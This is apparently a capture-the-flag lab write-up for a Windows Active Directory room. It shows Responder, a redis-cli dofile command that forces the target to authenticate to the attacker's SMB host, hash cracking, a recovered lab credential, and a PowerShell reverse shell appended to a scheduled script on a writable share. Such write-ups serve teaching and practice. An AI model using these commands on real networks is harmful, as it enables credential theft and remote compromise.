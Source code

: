 > LLMNR Poisoning attack is nothing but when a user try to access a remote share. This would leak the NTLM hash of the user as he/she tries to authenticate himself/herself. If this remote share is on our machine, we could attempt to log the access and thus get access to the hash.

* thus to check this we can start our smb server using impacket and from redis-cli we can query a file from our smb server.
* next we wait and see if we get any request on our smb server.
* and just like that we eventually performed LLMNR poisoning attack as we got the hash.
* NOTE: we can also perfrom this attack using responder.

```
┌──(kali㉿kali)-[~/THM/rooms/vulnnet_active] 
└─$ sudo responder -I tun0
```

```
┌──(kali㉿kali)-[~/THM/rooms/vulnnet_active]
└─$ redis-cli -h 10.10.245.19 eval "dofile('//10.11.60.43/test')" 0
```

* now we can easily crack this has using john.
* just put the hash string in a file and give it to john with a wordlist.
* We now have valid credentials `enterprise-security:sand_0873959498`
* now that we have a user creds we can enumerate SMB share with access check.
* on Enterprise-Share we have a powershell script.
* the script seems to be removing everything from `C:\Users\Public\Documents\` folder and suppressing any errors.
* as it seems, this might be running in a timely manner on target system.
* thus lets check if we can put files on Enterprise-Share as if we can, we would be able to replace this original powershell script with our malicious one.
* and we see we are able to do put files on this share.
* thus lets create a maclicious script.
* for this i took a powershell rev shell command from `https://www.revshells.com/`.
* and next appended it to the original file and put it on the share.
* now lets start a listener and wait.
* after a few seconds we did get a shell but it still as enterprise-security user.
* NOTE: on second time spawnig a shell we found that its an event based task. thus it need to wait for the event of redis eval dofile to occur give back us a rev shell.

## Post Exploitation

* current user Download direcotry the last modified time is diff. then other.
* thus looking into it we found 3 file in there.
* Looking at the files in the directory we land in shows us a file called startup.bat which has the following inside of it:

```
:home 
TIMEOUT /T 30 /NOBREAK 

powershell.exe -File C:\Enterprise-Share\PurgeIrrelevantData_1826.ps1

TIMEOUT /T 30

cls 
Goto :home
```
